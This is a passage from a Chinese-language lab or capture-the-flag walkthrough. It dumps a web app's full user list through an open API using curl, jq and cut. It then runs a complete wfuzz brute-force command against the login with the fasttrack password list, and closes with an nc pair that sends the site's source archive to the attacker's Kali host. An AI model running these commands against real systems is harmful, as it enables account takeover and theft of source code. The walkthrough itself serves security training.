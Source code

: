 接下来思路就是字典爬取->wfuzz暴力模糊测试！


1）字典爬取
在使用bp拦截的位置：http history发现
http://192.168.4.5/users/getUsers?limit=9

bp右下角输入username，回显15,762个用户信息！

因为该框架是josn的，Javascript是不可读格式的，cewl爬取会很多无法识别，另外介绍技巧：

jq可以对json数据进行分片、过滤、映射和转换，和sed、awk、grep等命令一样，都可以让你轻松地把玩文本。 它能轻松地把你拥有的数据转换成你期望的格式，而且需要写的程序通常也比你期望的更加简短。 jq是用C编写，没有运行时依赖，所以几乎可以运行在任何系统上。

专门爬json代码的！参考文章：
https://blog.csdn.net/whatday/article/details/105781873
最简单的jq程序是表达式"."，它不改变输入，但可以将其优美地输出，便于阅读和理解！
curl http://192.168.4.5/users/getUsers | jq .

curl http://192.168.4.5/users/getUsers | jq .| grep username

在利用cut命令：参考文章：
https://www.runoob.com/linux/linux-comm-cut.html
Linux cut命令用于显示每行从开头算起 num1 到 num2 的文字！
-f ：与-d一起使用，指定显示哪个区域。
-d ：自定义分隔符，默认为制表符。

curl http://192.168.4.5/users/getUsers | jq .| grep username| cut -f4 -d"\"">users

wc -l users 
15762 users
成功爬取15762个用户名！

2）wfuzz模糊测试

bp在登录页面抓包，任意输入账号密码：

wfuzz -w users -w /usr/share/wordlists/fasttrack.txt \
-H "Host: 192.168.4.5" \
-H "Accept: application/json, text/plain, */*" \
-H "Referer: http://192.168.4.5/login" \
-H "Content-Type: application/json" \
-d "{\"username\":\"FUZZ\",\"password\":\"FUZ2Z\"}" --hc=401 -t 25 -c http://192.168.4.5/users/authenticate

或者用burpsuite爆破！




知识拓展：代码审计
nc -l -p 8888 > web.tar.gz   ---kali执行
nc 192.168.4.6 8888 < web.tar.gz    ---项目环境执行，指向kali ip










